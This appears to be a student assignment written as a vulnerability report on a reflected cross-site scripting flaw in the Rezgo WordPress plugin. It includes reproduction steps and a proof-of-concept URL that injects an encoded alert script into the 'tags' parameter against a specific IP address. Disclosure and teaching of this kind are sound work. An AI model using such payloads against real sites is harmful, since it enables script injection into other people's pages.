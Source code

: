 # cs-assignment

## Title: 
Reflected XSS at http://143.198.175.81/pertemuan9 via rezgo plugin parameter

## Summary

An issue on rezgo plugin regarding XSS attack, so attacker can inject dangeroues script on some parameters. The plugin does not sanitise and escape some parameters before outputting them back in a page, leading to a Reflected Cross-Site Scripting, which can be exploited either via a LFI in an AJAX action, or direct call to the affected file

## Step To Reproduce

1. Go to website http://143.198.175.81/pertemuan9
2. Direct call http://143.198.175.81/pertemuan9/wp-content/plugins/rezgo/rezgo/templates/default/frame_header.php?tags=%22%3E%3Cscript%3Ealert(`xss`)%3C/script%3E
3. XSS Reflected

## Proof Of Concept

Direct call: http://143.198.175.81/wp-content/plugins/rezgo/rezgo/templates/default/frame_header.php?tags=%22%3E%3Cscript%3Ealert(`xss`)%3C/script%3E

![image](https://user-images.githubusercontent.com/6330046/191037575-4746ac50-5af0-4db2-9ff4-8683508eb755.png)

## Impact 

Attacker can inject dangeroues script on some parameters

## Remediate

sanitise and escape some parameters before outputting them back in a page







